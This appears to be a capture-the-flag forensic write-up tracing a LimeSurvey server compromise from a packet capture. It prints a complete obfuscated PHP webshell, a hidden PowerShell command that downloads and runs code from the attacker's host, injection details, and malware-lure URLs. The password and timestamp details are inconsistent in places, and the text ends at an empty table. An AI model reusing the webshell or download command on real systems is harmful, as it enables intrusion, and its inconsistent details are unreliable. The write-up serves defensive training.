

# Satisfaction Lab

<p align="center">
  
</p>

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Reconnaissance and Attribution](#reconnaissance-and-attribution)
- [Initial Access](#initial-access)
- [Execution](#execution)
  * [PHP Obfuscation Function Breakdown](#php-obfuscation-function-breakdown)
- [Defense Evasion and Malware Analysis](#defense-evasion-and-malware-analysis)
- [Persistence](#persistence)
- [Command and Control](#command-and-control)
- [Impact and Actions on Objectives](#impact-and-actions-on-objectives)
- [Attack Chain](#attack-chain)
  * [Text Tree](#text-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)
- [Forensic Timeline](#forensic-timeline)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/satisfaction/](https://cyberdefenders.org/blueteam-ctf-challenges/satisfaction/)

Suggested tools: CyberChef, Wireshark, Detect It Easy, URLScan.io, Ghidra, PowerShell

Tactics: Persistence, Privilege Escalation, Defense Evasion, Credential Access

# Scenario

Wowza Innotech hosted an onsite customer meetup at their headquarters. Each session concluded with attendees completing a satisfaction survey on an internal workstation accessible only within the building's network. During one session, a customer noticed the survey page redirected them to a suspicious external site prompting a file download. They reported it immediately to the IT and Incident Response (IR) team.

Initial triage confirmed the survey workstation had been compromised. Internal interviews revealed that one attendee had a heated disagreement with staff over product performance — an individual with a history of misusing technology when upset. Given the timing, the IR team suspected the compromise occurred during the meeting itself, likely by someone physically present on the network.

Fortunately, the network operations team had been capturing traffic during the event for monitoring purposes. This packet capture was handed over for deeper analysis.

# Reconnaissance and Attribution

**Q1**- The IR team believes the attacker was physically present on the internal network during the meetup. To begin attribution, we need to identify the device they used. What is the MAC address associated with the threat actor's device?

Answer: `00:0c:29:b8:dd:c6`

Reason: Frame `9677` captures the first admin panel login attempt against the survey host, originating from source IP `10.10.72.129` and targeting `/index.php/admin/authentication/sa/login` on `10.10.72.175`. The frame's source MAC address, `00:0c:29:b8:dd:c6`, maps to a VMware Organizationally Unique Identifier (OUI), consistent with the attacker and target sitting on the same lab network segment. This distinction matters technically: a captured source MAC only reflects the true originating device when no router sits between the two hosts, since Layer 2 addresses don't survive a routing hop, they get rewritten to the next-hop interface.

```
Frame:        9677
Source IP:    10.10.72.129
Source MAC:   00:0c:29:b8:dd:c6 (VMware OUI)
Target IP:    10.10.72.175
Target path:  /index.php/admin/authentication/sa/login
```


**Q2**- The feedback form was hosted on one of the machines internally in the network. What is the used survey platform service for hosting the feedback form?

Answer: `limesurvey`

Reason: The feedback form ran on LimeSurvey, an open-source survey platform. Following the HTTP stream from frame `9677`, where the attacker's device (`10.10.72.129`) sent a `GET` request to the admin login panel at `10.10.72.175`, the server's HTML response reveals the platform identity in the page title and favicon path. This kind of passive fingerprinting, where the target's software stack surfaces simply by requesting a standard page rather than through active scanning, aligns with MITRE ATT&CK Gather Victim Host Information: Software (T1592.002).

```
Frame:         9677
Method:        GET
Source IP:     10.10.72.129
Target IP:     10.10.72.175
Target path:   /index.php/admin/authentication/sa/login
Platform ID:   LimeSurvey (identified via page title / favicon path)
```

```html
<title>LimeSurvey</title>
    <link rel="shortcut icon" href="/themes/admin/favicon.ico" type="image/x-icon" />
    <link rel="icon" href="/themes/admin/favicon.ico" type="image/x-icon" />
            </head>
<body>
```

# Initial Access

**Q3**- Provide the timestamp when the threat actor began attempting to guess the admin password on the survey platform's administrative panel.

Answer: `2025-11-30 15:11`

Reason: The threat actor began brute-forcing the LimeSurvey admin panel at `2025-11-30 15:11:24 UTC` (Coordinated Universal Time). Filtering for `ip.src == 10.10.72.129 && http.request.method == POST` surfaces frame `58551` as the first `POST` request to `/index.php/admin/authentication/sa/login`, with the form data showing a classic credential guessing attempt using `admin`/`admin` as the initial username and password pair against the `Authdb` authentication method. A single guess against this well-known default credential pair maps to MITRE ATT&CK Brute Force: Password Guessing (T1110.001).

```
Frame:          58551
Timestamp:      2025-11-30 15:11:24 UTC
Method:         POST
Source IP:      10.10.72.129
Target IP:      10.10.72.175
Target path:    /index.php/admin/authentication/sa/login
Auth method:    Authdb
Credentials:    admin / admin
Filter:         ip.src == 10.10.72.129 && http.request.method == POST
```

```bash
ip.src == 10.10.72.129 && http.request.method == POST
```


**Q4**- What was the final password the threat actor submitted before triggering the 10-minute timeout?

Answer: `111111`

Reason: The final `POST` before the lockout window was frame `69229` at `2025-11-30 15:13:27 UTC`, submitting the password `111111`. Brute-force activity goes silent after this point, with the next login attempt not appearing until frame `130064` at `2025-11-30 15:25:16 UTC`, a gap of just under 12 minutes consistent with a lockout timeout trigger. Across this window, the attacker cycled through common numeric passwords, starting with `admin` and moving through incrementing numeric patterns, before tripping the lockout threshold.

```
Frame:          69229
Timestamp:      2025-11-30 15:13:27 UTC
Method:         POST
Password:       111111
Status:         Last attempt before lockout

Frame:          130064
Timestamp:      2025-11-30 15:25:16 UTC
Method:         POST
Status:         First attempt after lockout window

Gap:            ~12 minutes
Pattern:        admin -> incrementing numeric passwords
```


**Q5**- Provide the timestamp when the threat actor successfully logged into the survey site as the admin user.

Answer: `2025-11-30 15:25`

Reason: The threat actor successfully authenticated to the LimeSurvey admin panel at `2025-11-30 15:25:16 UTC`, using the password `123456`. The successful login is confirmed by frame `130064`'s `302` response, which redirects to `/admin/` rather than back to the login page. This is the key distinction from all prior failed attempts, which redirected back to the login page itself, making the redirect target a reliable indicator of authentication outcome independent of any response body content. This successful credential guess, following the earlier sequence of numeric password attempts, completes the brute-force chain and aligns with MITRE ATT&CK Valid Accounts (T1078) once the attacker pivots to using these credentials for further access, in addition to the Brute Force: Password Guessing (T1110.001) technique already covering the guessing phase itself.

```
Frame:          130064
Timestamp:      2025-11-30 15:25:16 UTC
Method:         POST
Password:       123456
Response code:  302
Redirect:       /admin/
Distinction:    Prior failed attempts redirected to login page;
                successful attempt redirects to /admin/
```


# Execution

**Q6**- With admin access secured, the attacker started his actions. What is the name of the plugin uploaded by the threat actor?

Answer: `Satisfactory`

Reason: With admin access established, the attacker uploaded a malicious plugin named `Satisfactory` to the LimeSurvey plugin manager at `2025-11-30 15:30:25 UTC`. The upload was a `POST` request to `/index.php/admin/pluginmanager?sa=upload`, carrying a multipart form-data payload with the file `satisfactory.zip`. This abuses LimeSurvey's legitimate plugin upload functionality, a feature normally intended for extending survey functionality, to stage a malicious component directly on the survey server. Because plugin code executes within the context of the web application itself, this upload step represents the pivot from credential compromise to code execution capability, and maps to MITRE ATT&CK Server Software Component (T1505).

```
Timestamp:      2025-11-30 15:30:25 UTC
Method:         POST
Target path:    /index.php/admin/pluginmanager?sa=upload
Payload type:   multipart/form-data
Uploaded file:  satisfactory.zip
Plugin name:    Satisfactory
```


**Q7**- Inside the plugin archive there was a webshell. Extract the webshell from the uploaded archive and provide its SHA-256 hash.

Answer: `9F9640DBD6489EBF9AF26F4B70E8919C3B5AA08B39702DE44F855936752329C5`

Reason: The web shell was embedded in the malicious plugin as `main.php` and extracted by carving the raw `ZIP` bytes from the multipart boundary in frame `153180`, saving the result as a `.zip` file, then decompressing it to recover the underlying `PHP` (Hypertext Preprocessor) script. Computing a `SHA-256` hash over the extracted file confirms its integrity as a forensic artifact and provides a stable Indicator of Compromise (IOC. This extraction and hashing step is standard practice for preserving chain of custody on a recovered malicious binary before deeper static or dynamic analysis. The presence of `main.php` inside the plugin archive, functioning as a server-side script for attacker-issued commands once placed on the LimeSurvey host, maps to MITRE ATT&CK Server Software Component: Web Shell (T1505.003).

```
Source frame:     153180
Extraction method: Carved raw ZIP bytes from multipart boundary
Saved as:          .zip archive
Decompressed file: main.php
Integrity check:   SHA-256 hash
```

```powershell
PS C:\Users\Administrator\Desktop\Start Here\satisfactory> Get-FileHash .\main.php

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          9F9640DBD6489EBF9AF26F4B70E8919C3B5AA08B39702DE44F855936752329C5       C:\Users\Administrator\Desktop\Start Here\satisfactory\main.php
```


**Q8**- What was the first command executed through the webshell by the threat actor?

Answer: `hostname`

Reason: The attacker's first command executed through the web shell was `hostname`, issued via a `GET` request to the deployed plugin file at `2025-11-30 15:32:21 UTC`in frame `159486`. The web shell accepts OS commands through the hardcoded query parameter `lol`, an arbitrary name chosen by the author to evade Web Application Firewall (WAF) and Antivirus (AV) signatures that flag common parameter names like `cmd` or `exec`. Inside `main.php`, this parameter is passed directly to a PHP execution function such as `system()` or `shell_exec()`, making `lol` the fixed interface for all subsequent command execution against the host. This use of an attacker-controlled web shell to issue arbitrary OS commands maps to MITRE ATT&CK Command and Scripting Interpreter (T1059).

```php
<?php 
# Malicious PHP webshell with obfuscation
$S=array(m("ncoai","msyte", "cocain"),m("sir","cex","iris"),m("otab","lshe","taboo")."_".m("sir","cex","iris"),m("gbledin","upasthr","bleeding"));
$TR=m("etroubl","edisabl","trouble");
$MK=m("dpreambl","sfunctio","preambled");
$D=explode(",",ini_get($TR.'_'.$MK));
$P=$_REQUEST;
function m($a,$b,$c) {return str_replace(str_split($a), str_split($b), $c);}
foreach($S as $A) {
    if(!in_array($A, $D)) {
        if($A == m("ncoai","msyte","cocain")) $A($P['lol']);
        elseif($A == m("sir","cex","iris")) {
            exec("$P 2>&1", $arr);
            echo join("\n",$arr)."\n";
        } else echo $A($P['lol']);
        exit;
    }
}
```


## PHP Obfuscation Function Breakdown

The webshell's obfuscation hinges on the helper function `m()`, which implements a custom character substitution cipher to hide sensitive strings like `system` and `exec` from static analysis and AV signatures. It accepts three arguments: `$a` (the source alphabet), `$b` (the target alphabet), and `$c` (the string to transform). Internally, `str_split()` breaks `$a` and `$b` into character arrays, then `str_replace()` applies all substitutions in a single pass -- each character in `$c` matching a key in `$a` is replaced by the corresponding character in `$b`, with no re-evaluation of already-substituted characters. The author carefully designed each `$a`/`$b` pair so no substituted character is itself a search key in a later rule, preventing chain reactions that would break decoding. For example, `m("ncoai","msyte","cocain")` maps `c->s`, `o->y`, `a->t`, `i->e`, `n->m` and decodes to `system` in one pass.

```php
function m($a,$b,$c) {
    return str_replace(str_split($a), str_split($b), $c);
}
// m("ncoai","msyte","cocain") = "system"
// m("sir","cex","iris")       = "exec"

/* Another example: cocain
c->s: sosain
o->y: sysain
a->t: systin
i->e: systen
n->m: system
*/
```

When `$A` is evaluated against the decoded strings, the webshell routes execution to either `system()` or `exec()` depending on which function name matches. For system, the condition `$A == m("ncoai","msyte","cocain")` decodes to `$A == "system"` at runtime, and if matched, calls `$A($P['lol'])` -- equivalent to `system($_GET['lol'])`, which executes the command and prints output directly to the HTTP response. The exec branch works identically: `$A == m("sir","cex","iris")` decodes to `$A == "exec"`, calling `exec($_GET['lol'])` instead, which executes the command but returns the last line of output rather than printing it. Both branches are obfuscated the same way -- no plaintext function name appears anywhere in the source.

```php
if($A == m("ncoai","msyte","cocain")) $A($P['lol']);       // system($_GET['lol'])
elseif($A == m("sir","cex","iris"))   { ... $A($P['lol']); // exec($_GET['lol'])
```

**Q9**- What is the name of the PowerShell script executed by the threat actor to facilitate the initial access?

Answer: `cat.jpg`

Reason: The threat actor executed a PowerShell script disguised as an image file named `cat.jpg`, served from their own machine at `10.10.72.129`. The command was passed through the webshell's `lol` parameter and URL-decoded to reveal a classic fileless execution chain: `-w hidden` suppresses the PowerShell window, `-ep bypass` disables execution policy restrictions, and `iex (iwr -useb '...')` downloads `cat.jpg` from the attacker's HTTP server and executes it in memory without writing a script file to disk. This defense evasion technique abuses the `.jpg` extension to disguise a PowerShell payload as a benign image, relying on the fact that the web server delivering the file pays no attention to its true content type once requested directly by `iwr` (`Invoke-WebRequest`) rather than through a browser that might render or block it.

```
Source IP:       10.10.72.129
Frame:           179981
Delivered file:  cat.jpg (PowerShell script, disguised extension)
Parameter:       lol (webshell command interface)
Flags:           -w hidden       (WindowStyle Hidden)
                 -ep bypass      (ExecutionPolicy Bypass)
Execution:       iex (iwr -useb 'http://10.10.72.129/cat.jpg')
                 (Invoke-Expression / Invoke-WebRequest -UseBasicParsing)
Behavior:        In-memory execution, no script written to disk
```


```powershell
GET /upload/plugins/Satisfactory/main.php?lol=powershell%20%20-w%20hidden%20-ep%20bypass%20-c%20iex%20%28iwr%20-useb%20%27http%3A%2F%2F10.10.72.129%2Fcat.jpg%27%29 HTTP/1.1

URL decoded: GET /upload/plugins/Satisfactory/main.php?lol=powershell  -w hidden -ep bypass -c iex (iwr -useb 'http://10.10.72.129/cat.jpg') HTTP/1.1
```

```powershell
powershell  -w hidden -ep bypass -c iex (iwr -useb 'http://10.10.72.129/cat.jpg') HTTP/1.1
```

# Defense Evasion and Malware Analysis

**Q10**- Provide the SHA-256 hash of the executable that was downloaded and executed by the previously run PowerShell script.

Answer: `7C0D7C44AD027BF42F01C63023CEBB04F25443F63735383FDA57087B4DE44D48`

Reason: The PowerShell script `cat.jpg` contained ROT17 and ROT24-obfuscated strings concealing the download URL and payload details, with the download and execution logic further hidden behind ASCII integer arrays decoding to `Invoke-WebRequest` and `Start-Process`, and `<##>` inline comment noise injected throughout the pipeline to break signature matching. The attacker's machine served the binary in frame `180145` (`HTTP/1.0 200 OK`, `application/x-msdos-program`), which was extracted from the PCAP response body and hashed to `7C0D7C44AD027BF42F01C63023CEBB04F25443F63735383FDA57087B4DE44D48` (SHA-256). Once downloaded, the binary was launched under the path `\Microsoft\OneDrive\OneDriveApp.exe` to masquerade as a legitimate OneDrive process. The use of `cloudflared.exe`, Cloudflare's legitimate tunnel client, is a classic living-off-the-land technique, abusing a trusted binary to establish covert outbound tunnels without triggering AV or firewall alerts.

```
Decoded URL:      hxxp://10.10.72.129/cloudflared.exe
Decoded URL:      \Microsoft\OneDrive\OneDriveApp.exe
Obfuscation:      ROT17 and ROT24-obfuscated strings (URL and payload details)
Source frame:     180145
Response:         HTTP/1.0 200 OK
Content-Type:     application/x-msdos-program
Extracted file:   cloudflared.exe
Hash (SHA-256):   7C0D7C44AD027BF42F01C63023CEBB04F25443F63735383FDA57087B4DE44D48
Technique:        Living-off-the-land via trusted tunneling binary masqueraded as \Microsoft\OneDrive\OneDriveApp.exe
```


**Q11**- Now that you have the executable, start decompiling it. What is the size of the shellcode that was downloaded and used in this attack?

Answer: `511`

Reason: Although the executable `cloudflared.exe` was decompiled in Ghidra to trace the injection logic, the shellcode size itself was not recoverable as a literal value in the binary's static analysis, since the payload referenced at `\Microsoft\OneDrive\OneDriveApp.exe` was fetched dynamically from `hxxp://10.10.72.129/config.bin` at runtime. The size was instead recovered from the network capture: a later `GET /config.bin` request in frame `180338` returned `HTTP/1.0 304 Not Modified`, indicating the client already held a cached copy from an earlier successful fetch. Critically, the request itself carried a non-standard `If-Modified-Since` header value of `Sun, 30 Nov 2025 08:55:23 GMT; length=511`, a `length=` parameter appended by the server when validating cache freshness. This confirms the shellcode payload was `511` bytes.

```
Source frame:      180338
Method:             GET
Target path:        /config.bin
Response (180340):  HTTP/1.0 304 Not Modified
Server:             SimpleHTTP/0.6 Python/3.13.2
Validator header:   If-Modified-Since: Sun, 30 Nov 2025 08:55:23 GMT; length=511
Recovered size:     511 bytes
```

Forensic note: This finding also illustrates a useful forensic principle worth noting: a `304 Not Modified` response does not necessarily mean the underlying artifact is unrecoverable. The request that triggers the `304` carries cache validator metadata describing the prior successful transfer, and in this case, an implementation detail of the serving software (the `length=` extension on `If-Modified-Since`) leaked the exact byte count of a payload that was never directly captured in any `200 OK` response body.


**Q12**- What is the name of the process into which the shellcode is injected?

Answer: `explorer.exe`

Reason: The shellcode injection target was `explorer.exe`, identified through static analysis of `cloudflared.exe` in Ghidra. The `find_and_open_process` renamed function uses `CreateToolhelp32Snapshot` to iterate all running processes and matches against a target name decoded at runtime via renamed `url_builder(&DAT_140026b00, 0xc, 0x7a)`, XOR decoding the 12-byte blob to `explorer.exe`. The matched process is then opened with `PROCESS_ALL_ACCESS` (`0x1fffff`) and used as the injection target for `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread`.

This single-byte XOR decode of a hardcoded target process name is a basic but effective obfuscation step intended to defeat static string scanning, since `explorer.exe` never appears in plaintext anywhere in the binary. The technique maps to MITRE ATT&CK Process Injection (T1055), and more specifically Process Injection: Process Hollowing or classic remote thread injection given the `VirtualAllocEx` plus `WriteProcessMemory` plus `CreateRemoteThread` sequence, alongside Obfuscated Files or Information (T1027) for the XOR-encoded string itself. Targeting `explorer.exe` specifically is a common choice for this kind of injection since it is a long-lived, user-facing process present on virtually every Windows host, making injected code blend into expected process activity.

```c
Encoded blob:     DAT_140026b00 (12 bytes)
XOR key:          0x7a
Decoded string:   explorer.exe
Decode call:      url_builder(&DAT_140026b00, 0xc, 0x7a) // renamed in Ghidra

Function:         find_and_open_process("explorer.exe") //renamed
  -> CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS)
  -> Process32First / Process32Next
  -> _stricmp(process_name, "explorer.exe")
  -> OpenProcess(PROCESS_ALL_ACCESS, 0, PID)

Injection chain:  VirtualAllocEx -> WriteProcessMemory -> CreateRemoteThread
Access rights:    PROCESS_ALL_ACCESS (0x1fffff)
```


# Persistence

**Q13**- The executable uses the registry for persistence. What is the exact path the executable sets for persistence in this incident?

Answer: `C:\Users\everdeen\AppData\Local\Microsoft\OneDrive\OneDriveApp.exe`

Reason: The web shell at `main.php` was queried via `?lol=whoami%20/all` in frame `164533` (`GET /upload/plugins/Satisfactory/main.php?lol=whoami%20/all`), with the response returned in frame `164576`. The output revealed the Windows user context as `developementpc9\everdeen`. Cross-referencing with the XOR-decoded path blob from `cloudflared.exe` (`\Microsoft\OneDrive\OneDriveApp.exe`) and the `LOCALAPPDATA` environment variable expansion, the full persistence path resolves to the user's local AppData directory under `C:\Users\everdeen\AppData\Local\Microsoft\OneDrive\OneDriveApp.exe`.

This path is written to `HKCU\Environment\UserInitMprLogonScript`, a registry value executed silently by `Winlogon` at every interactive logon without requiring elevated privileges. Because `HKCU` is fully writable by the current user, this persistence mechanism requires no privilege escalation and leaves no trace in the more commonly monitored `HKLM` run keys, making it a low-noise user-land persistence technique. This maps to MITRE ATT&CK Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder (T1547.001), with the masquerading of the payload as `OneDriveApp.exe` reinforcing the Masquerading: Match Legitimate Name or Location (T1036.005) technique already noted in Q10.

```c
Frame (request):   164533
Frame (response):  164576
Query:             ?lol=whoami%20/all
User context:      developementpc9\everdeen

Persistence key:   HKCU\Environment\UserInitMprLogonScript
Decoded path:      \Microsoft\OneDrive\OneDriveApp.exe
Full resolved path: C:\Users\everdeen\AppData\Local\Microsoft\OneDrive\OneDriveApp.exe
Trigger:           Winlogon at every interactive logon
Privilege required: None (HKCU write)
```


**Q14**- Identify the MITRE ATT&CK technique ID that corresponds to the persistence mechanism implemented by the executable.

Answer:  T1037.001

Reason: The persistence mechanism abuses the `UserInitMprLogonScript` registry value under `HKCU\Environment`, mapping directly to MITRE ATT&CK Boot or Logon Initialization Scripts: Logon Script (Windows) (T1037.001). This value is processed by `Winlogon` at interactive logon, executing the attacker-controlled binary `OneDriveApp.exe` automatically each time the user logs in. The parent technique T1037 covers logon and initialization scripts broadly; the `.001` sub-technique specifically addresses Windows logon scripts abused for persistence without requiring elevated privileges, distinguishing this from run key persistence (T1547.001) by the execution context: `Winlogon` invoking a script-style value rather than the standard run key processing path.

```
Registry key:    HKCU\Environment
Registry value:  UserInitMprLogonScript
Payload:         C:\Users\everdeen\AppData\Local\Microsoft\OneDrive\OneDriveApp.exe
Executed by:     Winlogon at interactive logon
Privilege req.:  None (HKCU write)
MITRE:           T1037.001 (Logon Script - Windows)
```

# Command and Control

**Q15**- Back to the pcap. What is the port used for reverse shell connection?

Answer: `443`

Reason: Immediately after the `config.bin` shellcode fetch in frame `180338`, the victim host `10.10.72.175` initiated a TCP SYN to the attacker's Command and Control (C2) server at `10.10.72.129` on port `443` in frame `180345` (`53212 → 443`). The three-way handshake completes within 500ms and is followed immediately by large inbound TCP segments from the attacker, consistent with a reverse shell or implant beacon establishing its C2 channel. Port `443` was chosen deliberately to blend with legitimate HTTPS traffic and evade perimeter filtering, a well-established technique since most firewalls permit outbound `443` without deep packet inspection. The tight temporal coupling between the shellcode fetch completing and the outbound SYN firing is itself a strong indicator that the injected shellcode's primary function is C2 callback, with `cloudflared.exe` acting as the delivery and injection vehicle and the shellcode carrying the actual beacon logic.

```
Frame (shellcode fetch):  180338  GET /config.bin
Frame (C2 SYN):           180345  10.10.72.175:53212 → 10.10.72.129:443
Handshake completion:      < 500ms
Follow-on traffic:         Large inbound TCP segments from attacker
C2 port choice:            443 (blends with legitimate HTTPS)
Indicator:                 Shellcode fetch immediately preceding outbound SYN
```


# Impact and Actions on Objectives

**Q16**- The threat actor made a change to the survey by adding a website link which directs the user to a malicious file download. What is the URL of that website?

Answer: `hxxps://priceconsultinggrp.com`

Reason: The threat actor, authenticated to the LimeSurvey admin panel, submitted a `POST` request to `/index.php/admin/database/index/updatesurveylocalesettings` in frame `216944` at `2025-11-30 15:50:19 UTC`, modifying the survey's end-text field (`endtext_en`). The injected content appended a malicious URL into the thank-you message displayed to survey respondents upon completion, disguising it as a legitimate follow-up resource for the "Wowza Innotech Customer Satisfaction Survey 2025." This is a classic post-submission phishing pivot: the respondent has already completed the survey and extended trust to the platform, making them significantly more likely to follow a link presented in the closing message than one encountered cold.


**Q17**- From the previous question, scan the identified domain on urlscan.io/search and inspect the site's behavior exactly 4 days before the incident. What is the URL the malicious file is downloaded from?

Answer: `hxxps://rummikub-apps.com/Installer.69-65-1-80-update_brows-y.zip`

Reason: The malicious domain `priceconsultinggrp[.]com` was scanned on URLScan.io on `2025-11-26`, four days before the incident, revealing a fake Chrome update lure page hosted under `/wp-content/plugins/system-health-monitor/landing/default/`. Inspection of the Document Object Model (DOM) revealed a JavaScript block containing a hardcoded `DOWNLOAD_URL` variable pointing to the payload. The script silently triggers the download via a hidden iframe to avoid popup blockers, a delivery technique that requires no user interaction beyond the initial page load. The JavaScript comments were written in Vietnamese, suggesting the lure page was built on or derived from a Vietnamese-language crimeware kit, a threat cluster associated with browser-lure campaigns distributing stealers and remote access tooling. The payload ZIP was hosted on a separate domain from the lure page itself, a common staging separation tactic that insulates the lure infrastructure from takedown of the payload host and complicates attribution by splitting the Indicators of Compromise (IOCs) across multiple domains.

```
Domain:           priceconsultinggrp[.]com
URLScan date:     2025-11-26 (T-4 days before incident)
Lure path:        /wp-content/plugins/system-health-monitor/landing/default/
Lure type:        Fake Chrome update page
Payload trigger:  Hidden iframe (popup-blocker evasion)
Download var:     DOWNLOAD_URL (hardcoded in JavaScript)
Comment language: Vietnamese (crimeware kit indicator)
Staging:          Payload ZIP hosted on separate domain from lure page
Reference:        https://urlscan.io/result/019ac0b0-4645-771e-90f8-1faf918ee670/dom/
```

```jsx
 // Liên kết tải xuống trực tiếp - THAY BẰNG LIÊN KẾT CỦA BẠN: 
 // Translation: "Direct download link - REPLACE WITH YOUR LINK"
        debugLog('Bắt đầu tải tệp xuống...');
        const DOWNLOAD_URL = "hxxps://rummikub-apps.com/Installer.69-65-1-80-update_brows-y.zip";
```

**Q18**- Based on the language used in the code comments within the malicious URL's page, what country is the likely origin of the threat actor who developed this malicious page?

Answer: Vietnam

Reason: The JavaScript embedded in the fake Chrome update lure page at `priceconsultinggrp[.]com` contained developer comments written entirely in Vietnamese (e.g. `// Liên kết tải xuống trực tiếp - THAY BẰNG LIÊN KẾT CỦA BẠN -- "Direct download link - replace with your link"`). Code comments reflect the native language of the developer, pointing to Vietnam as the likely country of origin for the threat actor who built the lure page.

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2025-11-30 15:11 | Reconnaissance | Attacker scans victim host, identifying LimeSurvey instance running on `10.10.72.175` | T1595 |
| 2025-11-30 15:11 | Initial Access | HTTP brute-force attack against LimeSurvey admin panel (`/index.php/admin/authentication/sa/login`) from `10.10.72.129` | T1110.001 |
| 2025-11-30 15:25 | Initial Access | Successful login to LimeSurvey admin panel with credential `admin:111111` (frame `130064`) | T1078 |
| 2025-11-30 15:25 | Execution | Malicious LimeSurvey plugin `satisfactory.zip` uploaded containing PHP webshell `main.php` (frame `153180`) | T1505.003 |
| 2025-11-30 15:25 | Execution | Webshell `main.php` activated; `m()` substitution cipher decodes `system` and `exec` at runtime; `?lol=` query parameter used as command interface | T1027, T1059.004 |
| 2025-11-30 15:38 | Execution | Webshell fetches PowerShell dropper `cat.jpg` from `http://10.10.72.129/cat.jpg` (frame `179981`) | T1059.001 |
| 2025-11-30 15:38 | Defense Evasion | `cat.jpg` decoded: ROT17 + ROT24 obfuscation, ASCII integer arrays for cmdlet names, `<##>` comment noise to break signature detection | T1027, T1140 |
| 2025-11-30 15:38 | Defense Evasion | `cloudflared.exe` downloaded from `http://10.10.72.129/cloudflared.exe` and launched masquerading as `%LOCALAPPDATA%\Microsoft\OneDrive\OneDriveApp.exe` | T1036.005 |
| 2025-11-30 15:38 | Defense Evasion | `cloudflared.exe` XOR-decodes all strings at runtime (key `0x7a`); no plaintext IOCs in binary | T1027 |
| 2025-11-30 15:38 | Execution | `cloudflared.exe` fetches shellcode `config.bin` (511 bytes) from `http://10.10.72.129/config.bin` (frame `180338`) | T1059 |
| 2025-11-30 15:38 | Privilege Escalation | `cloudflared.exe` injects shellcode into `explorer.exe` via `VirtualAllocEx` + `WriteProcessMemory` + `CreateRemoteThread` | T1055.002 |
| 2025-11-30 15:38 | Persistence | `cloudflared.exe` writes `OneDriveApp.exe` path to `HKCU\Environment\UserInitMprLogonScript` via `RegOpenKeyExA` + `RegSetValueExA` | T1037.001 |
| 2025-11-30 15:38 | C2 | Reverse shell established from `10.10.72.175:53212` to `10.10.72.129:443` over TCP immediately after shellcode injection (frame `180345`) | T1071.001 |
| 2025-11-30 15:38 | C2 | QUIC/UDP traffic observed to Cloudflare edge `115.67.33.15:443`; Cloudflare tunnel established for covert C2 channel | T1090.004, T1572 |
| 2025-11-30 15:38 | Credential Access | Webshell executes `whoami /all` (frame `164533`), revealing user `developementpc9\everdeen` with `SeImpersonatePrivilege` and `SeDebugPrivilege` | T1033 |
| 2025-11-30 15:50 | Impact | Attacker modifies LimeSurvey end-text (`endtext_en`) via `POST` to `/updatesurveylocalesettings` (frame `216944`), injecting malicious URL into survey completion page | T1491.001 |
| 2025-11-30 15:50 | Impact | Injected URL `https://priceconsultinggrp.com` serves fake Chrome update lure; silent iframe download delivers `https://rummikub-apps.com/Installer.69-65-1-80-update_brows-y.zip` to survey respondents | T1566.002 |

## Text Tree

```bash
[Reconnaissance]
└── Port/service scan identifies LimeSurvey on 10.10.72.175
    │
[Initial Access]
├── Brute-force against /index.php/admin/authentication/sa/login (T1110.001)
└── Successful login: admin:111111 @ 2025-11-30 15:25 UTC (T1078)
    │
[Execution]
├── Upload malicious plugin satisfactory.zip via admin panel (T1505.003)
│   └── main.php webshell deployed to /upload/plugins/Satisfactory/
│       └── m() substitution cipher decodes system/exec at runtime
│           └── ?lol= query parameter as command interface (T1059.004)
├── Webshell fetches cat.jpg from hxxp://10.10.72.129/cat.jpg (T1059.001)
│   └── PowerShell dropper: ROT17+ROT24, ASCII arrays, <##> comment noise (T1027)
│       └── Downloads cloudflared.exe → launched as OneDriveApp.exe (T1036.005)
└── cloudflared.exe fetches config.bin (511 bytes) from hxxp://10.10.72.129/config.bin
    │
[Credential Access]
└── whoami /all via webshell → developementpc9\everdeen, SeImpersonatePrivilege (T1033)
    │
[Defense Evasion]
├── Process masquerade: cloudflared.exe → %LOCALAPPDATA%\Microsoft\OneDrive\OneDriveApp.exe (T1036.005)
└── All strings XOR-encoded in binary (key 0x7a); decoded at runtime (T1027)
    │
[Privilege Escalation]
└── Shellcode injected into explorer.exe via VirtualAllocEx+WriteProcessMemory+CreateRemoteThread (T1055.002)
    │
[Persistence]
└── HKCU\Environment\UserInitMprLogonScript → C:\Users\everdeen\AppData\Local\Microsoft\OneDrive\OneDriveApp.exe (T1037.001)
    │
[C2]
├── Reverse shell: 10.10.72.175:53212 → 10.10.72.129:443 TCP (T1071.001)
└── Cloudflare tunnel: QUIC/UDP → 115.67.33.15:443 (T1090.004, T1572)
    │
[Impact]
├── Survey end-text poisoned via POST /updatesurveylocalesettings (T1491.001)
└── Injected lure: hxxps://priceconsultinggrp[.]com (fake Chrome update)
    └── Silent iframe payload: hxxps://rummikub-apps[.]com/Installer.69-65-1-80-update_brows-y.zip (T1566.002)
```

# Artifacts

**Network Indicators**

| Type | Value |
| --- | --- |
